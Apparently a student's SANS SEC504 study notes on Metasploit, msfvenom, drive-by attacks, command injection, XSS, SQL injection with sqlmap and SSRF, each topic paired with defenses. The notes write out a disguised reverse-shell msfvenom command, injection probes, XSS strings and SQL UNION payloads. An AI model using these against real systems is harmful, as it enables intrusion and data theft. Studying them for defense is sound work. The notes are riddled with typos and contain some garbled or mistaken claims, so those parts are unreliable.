# Sec 504 book4

here we’ll start to get more into the tools and attacks used to compromise targets, so heads up and keep your eyes open to learn and spots these attacks from the first sight.  

## Metasploit:

an open source cross platform exploits developing and executing exploits and payloads , to use it u first select a n exploit from the huge pool u have , select the target IP and port to deploy the attack , some exploits may require additional arguments , then Metasploit dose its magic creating a custom package , that includes the exploit payload , and lunches it into the victim. it also includes scanning options like UDP port scanning , venerability scanning , and some evasion techniques. 

Metasploit **arsenal** contains ready to go exploits , codes that forces the victim to execute the payload, against   Windows, macOS, Linux, and other platforms, and a set of payloads codes that we want to run against the victim , they create reverse shells , listeners of on a specific port , the user doesn't have to understand any of this, he only need to know how to use the GUI, a script Kidde dream comes to live.  it also contains some extra tools like , port scanners, vulnerability scanners, Denial-of-Service tools, and fuzzers to find security flaws, and some post-exploitation  tools to plunder important info found on the machine, finally it contains some tools to help develop new exploits and payloads ,in all kind of ways. 

Metasploit offers a lot of **UI** options command line UI, web interface and a GUI called Armitage , and to lunch an attack all you have to do is select an  exploit , some can check if the target is venerable or not , then select the target , including the IP and port , in a reverse connection is needed in a case of a reverse shell you’ll provide the IP and port of the listener , and finally selecting the payload , most exploits have payloads but same ma have not so u need to select or write one on ur own. 

Metasploit have over 2k different **exploit** , most of the exploits are client side , like browser , PDF readers , or other targeting Unix systems , and mobile devices , Metasploit commonly takes advantages of memory management variabilities , like buffer overflow , heap overflow , and other variabilities.

### payloads:

**bind shell to arbitrary port:** This opens a command shell listener on any TCP port of the attacker's choosing.

**Reverse shell:**  shovels a shell back to the attacker on a TCP port. who will have a Netcat listener waiting to receive the shell.

**Windows VNC Server DLL Inject:** allows the attacker to remotely control the GUI of the victim machine, using the Virtual Network Computing (VNC) tool. VNC runs inside the victim process, so it doesn't need to be installed on the victim machine. Instead, it is inserted as a DLL inside the vulnerable process.

**Create Local Admin user:**  creates a new user in the administrator's group with a name and password specified by the attacker

### Meterpreter:

this payload carry a dll to the target PC , to give specialized command line access , its beauty lies that it doesn't create a new process, but it runs inside the exploited process, it all runs only in memory , it includes its own set of commands so it doesn't flag or executables from the target machine , it can dynamically load new modules and change its farcicality. instead of using hostname.exe we have a new command for this , and dynamically load new things .

so the set of features in the Meterpreter are display system info , interacting with file systems , interacting wit the network and interacting with processes , to cover its tracks it uses TLS to encrypt its traffic.

### Preparation:

always keep you system patched u should never get lazy when it comes to patching , the threat intel should keep you updated if any threat active now too keep your hear up , using host based detection and response EDR system , also app trust list software , which let only apps u permit to be installed , for Linux systems deploying SELinux-enabled versions , you should also filter all incoming and outgoing traffic , look for outliers , long domains , unknown DNS data , **suspicious IP** connections.



## Drive-By Attacks:

this type of attack targets normal web browsing activity ,it involves a third party website as the staging to deliver any attack , its a client side attack as it operates on the client device. it can also focus on exploiting the browser it self.

### steps of a drive-by attack:

1. identifying a vulnerable, otherwise legitimate website.
2. exploits the website, and adding malicious code or exploit logic to content delivered to website users.
3. The victim browses to the compromised website.
4. attacker delivers code through the compromised site to collect information about the victim browser, if the client is vulnerable to the attack, the attacker delivers the exploit to the victim.
5. The victim connects back to the attacker system, granting the attacker access to the client.

### Browsers:

the primary attack surface for this attack, as all modern browsers can render images in all formats ,fonts , third parties plugins , dealing with html5 features and more each of the things i mention can be an attack surface inside the browser.

### Watering Hole Attack:

can be called a subtype of drive-by attack with one exception: It is targeted. the attacker here can focus of a company personal , government only. for example focusing on a marketing company that deals website everyday this site load JS html css , and ads from 10 different sites each of this 10 ads can be targeted and effect the company.

### Code-Executing Microsoft Office Files:

attacker can exploit a victim devise by sending a macro embedded in a MS file like a .DOCM , .XLSM , most users may delete or ignore these file but since its from a trusted site they will trust it, in most attacks they will try and it that this file actually is useful , like naming it updated or new , making it look like it really is making a useful functionality and stressing of enabling macros. 

### Fake Installers:

after exploiting a website attackers replace the binary installed with there own , the best way to blend in is to do the same functionality and then your malicious code , and since its from the official website people wont think much about it 

### Browser Exploitation Framework (BeEF):

is a collection of tools and exploits made for attacking a browser, it takes advantage of cross site scripting , one of the attacks provided by BeEF is social engraining attacks, things like a fake google login , or update , the default is BeEF server works on TCP/3000, and have tons of different attack you can make 



### Building Payloads:

**Metasploit MsfVenom:**

is a tool included in the Metasploit suite , it takes any exploit and convert it into a stand alone file , you can save it into a .exe , java .jar , PowerShell and many other formats , it supports different platforms and architecture , you can also add obfuscation and encryption to the file. an example of the command is here   `msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows LHOST=172.16.0.6 LPORT=4444 -o installer.exe`, there is also the -x parameter which specify a templet executable so instead of just making the payload you can make it act like a normal installer.

### Defense:

one of the best things to keep you company safe is to implement an application trust list , this keeps users from executing unknown apps and work the security team , also rapid patching system to keep your system up top date and not venerable to exploits , in a preparation POV to should monitor attack trends , and threat intel feed, also log monitoring and User and Entity Behavior Analytics (UEBA) this learns form the user behavior and if it detects any anomalies it will alert you automatically.



## System Resource Usage Monitor (SRUM):

SRUM is a built-in windows service it maintains a 30 days historical record or until data is over written depend on the usage , it records activities ,  programs executed, Wi-Fi networks joined, network use statistics by executable, system energy usage, and more , its parsed using SRUM-Dump. SRUM data is stored on  `C:\Windows\System32\SRU\SRUDB.dat` , `SRUDB.dat`is stored as an Extensible Storage Engine (ESE) database, is collects data hourly and at system shutdown. unsaved data is written to the registry in the `HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\SRUM\Extensions` key before its written to the `SRUDB.dat`. 

SRUM-Dump reads from the SRUDB.dat file and the HKLM registry hive, extracting the data and writing it to an Excel spreadsheet file. SRUM-Dump can read from either a live system, or from an offline forensics image. if its on a live system it will copy all necessary files to the working directory after it takes a couple of minutes to process the data the output will be named SRUM_DUMP_OUTPUT.xlsx.

the excel output is very clean and organized we have meltable taps each tab with all its data , we can use this data to understand attacks and how a user have been using the devise for the past time.





## Command Injection:

web apps takes inputs from users , then it run a command shell to run a program that deals with the input , in a venerable app the attacker can inject a command to run after the normal input , some times the command is separated by ‘`;`’ for Linux , and ‘`&`’ for windows , so the shell see it as part of  the normal call, web apps can call apps to deal with inputs , but anyways it can be tricked into running commands injected by the attacker, this attack can arrive via all forums of user input fields , like URL , or variables via HTTP GET or POST , cookies , or any other input methods, the attacker commands typically  runs with the same privilege of the web server which is limited but still , its a powerful starting point for an attacker , who can do some privilege escalation to cause more harm.

when testing system for this venerability , an attacker experiments with many different combination and commands and command separator. so if you have an input you should try and understand it how it operates so you know how to exploit it , the most command way to try command injection is to try the echo keyword as it works in UNIX and windows both cmd and PowerShell , there is also a blind command injection attack where the server doesn't show any results whatever you do , we can inject this command ping -n 6 -w 1000 127.0.0.1 we may not see the result of the ping command , but we’ll see a 5 second command , also you can inject the ping into you Ip then capture your packet and see ICMP packets on your Ip from the server.



### Example:

this website takes first and second name email and description , the image produced have the 1st +2nd name.jpg , that an opportunity for injection. normally the attacker cant but for this example sake we’ll take a look at the code `$fbrandfile = "upload/" . $_POST["fname"] . $_POST["lname"] . ".jpg"; system("composite csfooter.png " . $uploadfile . " " . $fbrandfile);` here the image name is composite of my actual name so i can use this to inject a command and it will execute and do as i wish.



### not only web:

command injection can work on other things , any hardware that uses cli might be locked to only some simple features, but with the right understanding we can inject some command to make it behave as we want , an example mentioned is the Crestron DGE-100, a digital graphics engine , this only have a set of simple command which you can connect to using nc reverse shell in these command is ping , the searchers used this ping command to inject commands like so `ping $(injected command)`and gain sudo reverse shell to the device which you can now use.

### Defenses:

the best defense is to educate developers , that the user input is an attack surface and not to treated it carefully , and you should also conduct regular pen testing , also monitoring the traffic of the web server, like its not normal to the server yo ping any users , or making a connection to the outside world and monitoring the protocols used , like SMB, for containment you should take it down if it takes too long use a WAF.



## Cross-site Scripting (XSS):

its an end user venerability , which can be preformed on a site that doesn't preform input output validation , it differs from command injection is that command inject exploits the server , while in XSS you run the malicious code on the server , XSS attack exploit the trust between the browser and server so run arbitrary JS code or inject html into a webpage, an example is if the attacker uploaded malicious content to a XSS venerable site and then when the user use this site this code is executed.

browsers are powerful apps , that contain all sort of tools in them , when a user request a page from a legit server the browser will do exactly what this server wants. any thing like to take the cookie and sent it into an Ip (To sEe iF iTs GoOd) after all there server is the one who owns this cookie , in an XSS attack an attacker sends custom commands like JS or even html and css to the server, which is relayed from the server to the victim.

### Stored Cross-Site Scripting:

in this attack , the attacker can upload and store malicious code into the server that have improper input validation this can be username or bio  or a review , any victim that visit this page will be infected. in better steps. this attack cant be specified as you just exploit it and hope some one just visit this page.

1. an attacker upload malicious content in a page they can edit , like JS code.
2. the server accept the data and stores for later use.
3. later the victim go to view an author bio page.
4. the server send the client to the author bio including the malicious code.
5. the victim execute the code and complete the attack.

### Reflected Cross-Site Scripting:

here the attacker identifies a server input validation venerability in one of the parameters of a GET request , an example can be like this `https://www.trustedbookseller.com/search?Dostoyevsky` , the server process this request with the term Dostoyevsky and return the results found , if the search is not validated an attacker can send this instead `https://www.trustedbookseller.com/search?`  , which results in an alert(1) to any one who visits the link, the process of returning the JS code to any one who visit the site is called reflected XSS. this attack can be easily targeted for a specific victim , by some social engineering you can make them sure that the legit website have no harm. 

1. an attacker crafts a link that will exploit the reflected XSS venerability, then the attacker send the link to the victim. 
2. the victim clicks the link to the venerable website.
3. the website return the malicious code included in the attacker link.
4. the victim renders the content from the server executing malicious code supplied by the attacker  in the link.

reflected XSS usually exploits the trust between the user and the venerable website, that why is mostly used in phishing exploiting that the user will se domain and know its the real one , but they don't know what XSS and if this site is venerable to it.

### what can an attacker do with XSS:

 XSS attackers most of the time use JS which can  make arbitrary HTTP requests to perform password guessing against internal web applications, create a fake login prompt website keystroke logger, capture screenshots of the web page, implement internal network port scanning, or rewrite HTML form elements to send to an attacker instead of the legitimate website.  malicious payload to capture microphone or camera content from the victim , deploy a money-making tool such a JavaScript crypto miner. and the most common thing is to steal cookies.

### Testing for XSS:

we identify any fields or content where data is sent to a server , primally any http GET parameters , when testing HTML form fields we usually supply the `
` element which will show on the screen as it renders, you can also find if its changed encoded or filtered, you can also inject the string `'';!--"<XSS>=&{()}` , and see the output which can tell us exactly which character being filtered , so even if the `<>` are being filtered we can inject something like this `SRC=javascript:alert('XSS');` , there is some automated testing tools which can help us with this like . ZAP Proxy, Arachni, Wapiti.

### Defense:

filtering the user input , all the dangerous characters should eb filtered , its easy for a misunderstood feature or a mistake in filtering to leave the server venerable for XSS, instead of preforming manual filtering use 3rd party filtering libraries like  OWASP Java Encoder Project for Java, HTML Purifier for PHP , and Joi for Node.js. chose a web framework that handles filtering for you, use WAF some solutions like ModSecurity library for Apache, IIS, and Nginx web servers, while it doesn't fix it at least provide an acceptance alternative. also we should also focus in output validation which adds a second layer of filtering. configure servers to set response header to mark cookies as `HTTPOnly`, this doesn't require that the cookie is only delivered http, instead it makes the cookie inaccessible form JS running in the browser , this can break some apps that recure JS access to cookies, you can also use Content Security Policy (CSP) header on a web server, It is a set of instructions sent by the server that tells the browser exactly which sources of content are trustworthy.



## SQL injection:

Structured Query Language (SQL) injection is a common web attack technique that exploits input validation flaw on apps that lets the user input reacts with the database, in this attack the attacker craft a string that accepted into the web server and applied as part of a SQL statement to interact with the back end DB, executing the query and returning the results to the attacker , if the server of the DB don't constrain , encode or filter , the input provided by the user its vulnerable to SQL injection. 

### SQL:

any SQL statement consists of 3 parts, [VERB]: the part where the action is taken , like SELECT, UPDATE, DELETE, CREAT, CONNECT, DISCONNECT and FITCH. [SOURCE]: this selects one or more table from the data base where the verb will be applied to. [REFINEMENT]: this part is not always present but its used to limit the scope of the action by specifying a column. some additional key words can be used like FROM, WHERE and SET.

### Injecting SQL content:

anytime the end user have control over the input an opportunity exists to preform SQL injection. to test for SQL injection we manipulate the input using special characters, then look at the response of change in behavior that indicates SQL errors. lets take a look at a web server formulated query `SELECT filename FROM dropbox WHERE owner = ‘user-content’;`, we can supply the string `jwright' OR 'a'='a`, which will execute both the statements SELECT and the a=a which will  produces a tautology or an always True condition , here all the records in the DB will be returned to the attacker, making him know information he wasn't meant to know.

### Example:

testing for SQL injection is similar to XSS , as we manipulate the input, here we have a PHP page that takes a category parameter *cat*, normally is a number, but instead we supplied it with `1’` which retuned an error, SQL syntax error `“/’”` we can know that the DB is MySQL, and see the full path to the listproduct.php event the line where the error occurred, here we see the server tiring to quota unsafe characters , which is a technique in PHP that complicates but does not prevent SQL injection attacks



### SQL Union Statement:

the UNION accommodates two SQL statements, appending the results of the 2nd statement to the 1st, we can use this to our advantage here. most databases require the SELECT statement following the UNION must select the same number of columns. as you conk know that what we can do is to increment a static value until we get no errors, ex. `SELECT ccard, cvv, 1, 2, 3, 4, 5 from payments`. 

back to the example. we can use UNION, and some other built-in records get some more info like  @@version: Returns the version number of the MySQL, user(): Returns the username and the hostname of the account, system_user(): Returns the account name used for Windows authentication used by the database, database(): Returns the database name in use.  the command used is `UNION SELECT 1,@@version,2,3,4,5,user(),6,database(),7,8`, this shows us that there is 11 total columns.

### Sqlmap:

manual SQL injection scanning is time-consuming, automated tools accelerate this process, taking one or more target designations and quickly sending multiple SQL statements to determine if a server is vulnerable to SQL injection. there are a lot of tools like  including Burp Suite Professional or the Acunetix Web Vulnerability Scanner and Sqlmap.

its simplest use is the `-u` which identify any vulnerable parameter in the URL also it collects some backend data like web server platform and database management system (DBMS).

some important notes to keep in mind , **use non error generating URL**, as sqlmap assume the URL is anormal request and start to mutates it until it identify an error condition. if you start with an error url it will not be able to do anything. **put your url in quotes** 

after finding a vulnerable parameter run sqlmap with the `--dbs` argument to show the available databases, then u can select one using the `- D` argument and then adding  `--table` to list the tables in this database, then use the `-T` to select a table and `--columns` to get a list of all columns in this table , or just use the `--dump` command with specifying a database or a table to dump it all or just use the `--sql-shell`, to get an interactive sql interface and craft your own statements.

### Cloud SQL:

cloud providers offeres database service as part of there cloud product , which can be some stand alone products  (e.g., Azure SQL Managed Instance) and independent technologies (e.g., Google Spanner, Amazon RDS). These technologies are not impervious to SQL injection; in some cases, they have introduced more frequent vulnerabilities. The Role of ORMs

Conventional server systems saw a drop in SQL injection due to Object Relational Mapping (ORM) systems. these ORMs provide an abstracted interface for developers to interact with the SQL databases where the developer is no longer creating manual SQL statements that could be vulnerable to SQL injection. the issue here is that  ORM are slower but enhances the security of the connection between the application and the database by crafting SQL statements that cannot be exploited using SQL injection technique. 

Tools like Azure Functions, AWS Lambda, and Google Cloud Functions have led to a resurgence of SQL injection. Developers often skip ORMs in serverless environments to avoid overhead and improve performance. By accessing databases directly, they regress in security.

### SQL injection test risk:

SQL injection test is dangerous as the tester have full access to the database which he can delete all of it replace all user name withe the test username, that why you much have a backup to the DB before testing.

### Defenses:

the basic level of defense is to not give the web have admin permissions on the database , limiting the permissions wont stop SQL injection but will limit what an attacker can do, filtering input data , that can be used to preform this attack , also using parameterized queries rather then using string concatenation. also turn-on database logging for failed SQL statements and syntax error and it will help you spot an attack , and finally  use of the ModSecurity plugin for your Apache, IIS, and Nginx web servers ModSecurity includes filtering features to stop SQL Injection attacks, as well as Cross-Site Scripting attacks.



## Cloud Spotlight: SSRF and IMDS

here we will taka a loot at the Server-Side Request Forgery (SSRF) attack to exploit cloud target Instance Metadata Services (IMDS), the SSRF attack is not unique to cloud (it can also be applied in web apps) but its just very interesting when applied to cloud targets, the web app will accept input from the user, then use this input to form a request to the server, ex. requesting a profile picture, if the attacker can manipulate that input to the server and make arbitrary HTTP requests then the server is vulnerable to SSFR. this can lead to server compromisation, or disclosing sensitive cloud authentication tokens through the Instance Metadata (IMDS) service.

### Web client requests:

